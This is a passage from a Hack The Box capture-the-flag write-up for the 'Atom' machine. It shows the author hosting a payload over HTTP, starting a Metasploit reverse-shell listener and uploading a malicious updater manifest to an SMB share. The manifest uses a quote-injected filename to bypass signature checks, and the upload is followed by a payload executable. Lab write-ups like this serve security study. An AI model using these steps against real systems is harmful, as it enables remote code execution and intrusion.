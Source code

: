 Start a python server:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Restart [[Writeups/Hack the Box/Boxes/Atom/15 - SMB#Generating a Payload|our listener]]:

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.167:9001 
```

And `put` the file:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ smbclient //10.10.10.237/Software_Updates
Enter WORKGROUP\mac's password: 
Try "help" to get a list of possible commands.
smb: \> cd client1
smb: \client1\> dir
  .                                   D        0  Wed Apr 21 22:26:45 2021
  ..                                  D        0  Wed Apr 21 22:26:45 2021

		4413951 blocks of size 4096. 1340804 blocks available
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (0.6 kb/s) (average 0.6 kb/s)
```

I didn't immediately get a hit so I put to `client2` and `client3` for good measure, then waited a little while...

No luck. So instead, I modified `latest.yml` to grab a local file and `put` the `.exe` directly:

```yaml
version: 1.0.1
files:
  - url: heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

And the `put`:

```bash
smb: \client1\> put heedv1'Setup1.0.1.exe
putting file heedv1'Setup1.0.1.exe as \client1\heedv1'Setup1.0.1.exe (287.1 kb/s) (average 287.1 kb/s)
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (1.1 kb/s) (average 129.7 kb/s)
```
